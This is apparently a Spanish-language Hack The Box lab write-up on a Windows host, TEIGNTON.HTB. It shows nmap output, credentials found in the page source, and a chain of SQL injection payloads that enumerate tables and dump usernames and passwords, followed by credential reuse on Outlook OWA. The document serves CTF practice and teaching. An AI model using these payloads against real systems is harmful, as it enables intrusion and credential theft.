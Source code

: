 #Advanced-Labs #Nota #tecnicas 

### Ping

```python
ping -c 1 10.13.37.12
PING 10.13.37.12 (10.13.37.12) 56(84) bytes of data.
64 bytes from 10.13.37.12: icmp_seq=1 ttl=127 time=96.2 ms

--- 10.13.37.12 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 96.183/96.183/96.183/0.000 ms
```

### TTL = 127 Windows

### nmap

```python
Nmap scan report for 10.13.37.12
Host is up (0.089s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
443/tcp  open  ssl/https
|_http-title: Home page - Home
|_http-server-header: Microsoft-IIS/10.0
| ssl-cert: Subject: commonName=WMSvc-SHA2-WEB
| Not valid before: 2020-10-12T18:31:49
|_Not valid after:  2030-10-10T18:31:49
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2070.00; GDR1
| ms-sql-info: 
|   10.13.37.12:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 GDR1
|       number: 15.00.2070.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: GDR1
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.13.37.12:1433: 
|     Target_Name: TEIGNTON
|     NetBIOS_Domain_Name: TEIGNTON
|     NetBIOS_Computer_Name: WEB
|     DNS_Domain_Name: TEIGNTON.HTB
|     DNS_Computer_Name: WEB.TEIGNTON.HTB
|     DNS_Tree_Name: TEIGNTON.HTB
|_    Product_Version: 10.0.17763
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WEB.TEIGNTON.HTB
| Not valid before: 2024-06-12T13:37:50
|_Not valid after:  2024-12-12T13:37:50
| rdp-ntlm-info: 
|   Target_Name: TEIGNTON
|   NetBIOS_Domain_Name: TEIGNTON
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: TEIGNTON.HTB
|   DNS_Computer_Name: WEB.TEIGNTON.HTB
|   DNS_Tree_Name: TEIGNTON.HTB
|   Product_Version: 10.0.17763
|_  System_Time: 2024-07-14T16:57:50+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 44s, deviation: 0s, median: 44s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.83 seconds
```

### Enumeración del puerto 80 (http)
El puerto `443/tcp` está abierto, y tiene corriendo el servicio `open ssl` es decir que es una `web https`.
parece que tenemos muchas cosas aquí. debemos hacer una enumeración mas a fundo de esta web
![[Pasted image 20240714130314.png]]

si vamos al apartado de staff y analizamos el código fuente podemos encontrar la primera flag y también podemos ver unas credenciales
![[Pasted image 20240714130420.png]]

### admin
aquí vamos a probar las credenciales que hemos conseguido 
![[Pasted image 20240714132229.png]]

### SQLI
después de logearnos podemos ver el apartado de management y lo primero que vemos es una especie de petición a una base de datos asi que probamos directamente una `SQLI` y obtenemos información del primer parámetro `weapp`  

```python
'+(select db_name())+'
```

![[Pasted image 20240714132403.png]]

### Enumeración de la base de datos

```python
'+(select name from webapp..sysobjects where xtype = 'U' order by name offset 1 rows fetch next 1 rows only)+'
```

en esta enumeración podemos ver que existe una tabla que se llama `users`
![[Pasted image 20240714132734.png]]

`dumpeamos el campo users`
```python
'+(select top 1 username from users order by username)+'
```

![[Pasted image 20240714133051.png]]

`dumpeamos el campo password`
```python
'+(select top 1 password from users order by username)+'
```

![[Pasted image 20240714133156.png]]

`haciendo muchas pruebas y peticiones logramos conseguir una flag`
```python
'+(select password from users order by username offset 2 rows fetch next 1 rows only)+'
```

![[Pasted image 20240714133355.png]]

### Fuzzing con wfuzz
haciendo Fuzzing encontramos un directorio llamado owa
![[Pasted image 20240714133924.png]]

### owa
en este directorio tenemos una web de `Outlook` en la cual obviamente vamos a probar las credenciales que hemos conseguido
![[Pasted image 20240714134042.png]]

### Outlook
haciendo uso de las credenciales que hemos conseguimos podemos hacer un inicio de sesión en Outlook
![[Pasted image 20240714134318.png]]





### Vulnerabilidades

| CVE-XXXX-XXXXX | Nombre de la vulnerabilidad | Tipo | Nivel | Link |
| -------------- | --------------------------- | ---- | ----- | ---- |
|                |                             |      |       |      |
|                |                             |      |       |      |
|                |                             |      |       |      |
